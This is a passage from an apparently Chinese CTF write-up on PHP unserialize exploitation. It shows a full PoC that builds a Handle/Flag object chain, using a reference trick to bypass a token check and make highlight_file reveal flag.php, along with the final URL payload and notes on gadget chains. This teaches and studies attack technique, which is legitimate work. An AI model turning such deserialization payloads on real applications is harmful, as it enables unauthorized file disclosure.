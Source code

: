这样最后的token就和token_flag保持一致了。

最后的POC

```php
<?php
class Handle{       
    private $handle;        
    public function __wakeup(){
            foreach(get_object_vars($this) as $k => $v) {
                $this->$k = null;         
            }          
            echo "Waking upn";      
    }
    public function __construct($handle) {           
        $this->handle = $handle;       
    }    
    public function __destruct(){    
        $this->handle->getFlag();   
    }  
}    
class Flag{      
    public $file;      
    public $token;      
    public $token_flag;         
    function __construct($file){    
        $this->file = $file;    
        $this->token_flag = $this->token = md5(rand(1,10000));      
    }         
    public function getFlag(){       
        if(isset($this->file)){      
            echo @highlight_file($this->file,true);               
        }            
    }  
}
$b = new Flag("flag.php");
$b->token=&$b->token_flag;
$a = new Handle($b);
echo(serialize($a));
?>
```

[![En4uSx.md.png](https://s2.ax1x.com/2019/04/26/En4uSx.md.png)](https://imgchr.com/i/En4uSx)
这里还有一个点就是我们需要用%00来补全空缺的字符，又因为含有private 变量，需要 encode 一下。（累死了）

最终payload：

`?file=hint&payload=O:6:"Handle":1:{s:14:"Handlehandle";O:4:"Flag":3:{s:4:"file";s:8:"flag.php";s:5:"token";s:32:"da0d1111d2dc5d489242e60ebcbaf988";s:10:"token_flag";R:4;}}`                                                               

忘记encode了，算了。。。。。

[![En22U1.jpg](https://s2.ax1x.com/2019/04/26/En22U1.jpg)](https://imgchr.com/i/En22U1)
## 利用普通成员方法

前面谈到的利用都是基于“自动调用”的magic function。但当漏洞/危险代码存在类的普通方法中，就不能指望通过“自动调用”来达到目的了。这时我们需要去寻找相同的函数名，把敏感函数和类联系在一起。一般来说大佬们去白盒审计的时候都要盯紧这些敏感函数的联系，层层递进，最终去构造出一个有杀伤力的payload。

这里我就直接给出一个例子，自行消化 <https://www.cnblogs.com/bmjoker/p/8889240.html>



# 总结

怎么说呢，又学了一周PHP，跑了一周的图书馆，很自闭。最后就写出这么一篇文章，自闭了，不说了。共勉

